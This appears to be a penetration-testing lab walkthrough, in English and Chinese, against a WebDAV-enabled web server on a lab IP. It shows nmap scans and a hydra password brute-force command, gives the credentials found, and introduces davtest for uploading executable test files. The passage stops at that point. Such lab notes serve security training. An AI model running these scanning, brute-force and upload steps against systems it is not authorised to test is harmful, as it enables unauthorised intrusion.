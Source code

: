 ## video
```
Target IP Address: 10.2.17.124
```

`-sV`: Perform service version detection.

`-sC`: Perform script scan, using the default nmap scrpt.

```
nmap -sV -sC 10.2.17.124
```

`http-enum`: That is essentially tell us where have the webdav directory and wether webdav is configured on the web server.

[http-enum](https://nmap.org/nsedoc/scripts/http-enum.html)

```
nmap -sV -p 80 --script=http-enum 10.2.17.124
```

输入目标IP地址，重定向到

```
10.2.17.124/Default.aspx
```

访问`/webdav/`目录，需要进行HTTP身份验证。

```
10.2.17.124/webdav/
```

`/webdav/`: The directory that contains the authorization form.

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```

在Authentication Required窗口中输入以下用户名和密码：

```
Username: bob
Password: password_123321
```

`webdav` is a protocol that allow us to essentially upload, download files from this directory as well as modify and delete file within this directory. We can do this through use various tools, we are going to start with `devtest`.

[Davtest](https://www.kali.org/tools/davtest/)

davtest

DAVTest 通过上传测试可执行文件，然后（可选）上传允许直接在目标上执行命令或其他操作的文件来测试启用了 WebDAV 的服务器。它旨在让渗透测试人员快速轻松地确定启用的 DAV 服务是否可利用。

```
davtest
```
